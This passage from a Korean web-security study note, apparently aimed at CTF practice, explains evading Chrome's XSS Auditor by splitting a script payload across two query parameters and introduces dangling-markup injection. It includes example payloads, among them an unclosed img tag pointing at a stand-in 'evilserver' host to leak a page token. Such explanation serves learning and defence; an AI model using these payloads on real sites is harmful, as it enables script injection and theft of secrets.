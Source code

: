 위의 CSP가 대부분의 브라우저에서 지원하는 보안 옵션이라면, 크롬에는 크롬만의 `XSS auditor`이라는 보안 기능이 있다. 이 기능은 `reflected XSS`를 차단하는 기능을 한다.

`reflected XSS`란 클라이언트가 보낸 HTTP query parameter(GET, POST의 인자)들을 제대로 sanitize하지 않고 그대로 server-side script에 넣고 실행하면서 발생하는 XSS취약점을 의미한다. CTF에서 흔히 볼 수 있는 XSS가 이 것이다. 

다행히 크롬의 `XSS auditor`가 완벽하지는 않기 때문에 우회가 가능하다.

위 레퍼런스의 performace항목을 읽어보면

> ## Performance
>
> Processing costs are essentially zero unless the URL or POST body includes any of the four characters **" > <** **'**. When those characters are found, we only invoke heavy processing on those attributes that might be dangerous. This stands in contrast to the XSS Filter in Internet Explorer, which runs costly regular expressions.

`" > < '`의 4가지 특수문자가 URL또는 POST의 바디에 포함되면 `reflection`검사를 한다고 하는데, 이 검사를 request가 반영된 완성된 html파일이 아니라 개별 attribute에 대해 수행하는 것 같다. 따라서 만약 두개의 attribute를 request를 통해 조작할 수 있다면, XSS 커맨드를 둘로 분할하여 작성하여 이 auditing을 피해갈 수 있다.(자세한 내용은 공식 문서를 읽어봐야 알 수 있을듯 하다.)

:point_right:Example

`http://example.com?q=<script>alert(1);</script>` :x:

`http://example.com?q1=<script>ale&q2=rt(1);</script>`​ :o:

---

### 3.Dangling markup

> ref : https://portswigger.net/blog/evading-csp-with-dom-based-dangling-markup

`Dangling markup`은 html의 태그를 닫지 않음으로써 수행할 수 있는 공격기법이다. 가령 다음과 같은 코드가 있다고 하자.

```html
INJECTION HERE <b>test</b>
<script>
token = 'supersecret';
</script>
<form action="blah"></form>
```



여기서 token을 탈취하려 한다면 보통 XSS를 사용하여 html의 내용을 전송받는다. 그런데 `Dangling markup`은 XSS를 사용하는 것이 아니라 다음과 같은 내용을 삽입함으로써 공격을 수행한다.

```html
<img src="https://evilserver/?
```



이 내용을 삽입하면, 기존의 html은 다음과 같이 변형된다.

```html
<img src="https://evilserver/?<b>test</b>
<script>
token = 'supersecret';
</script>
<form action="blah"></form>
```
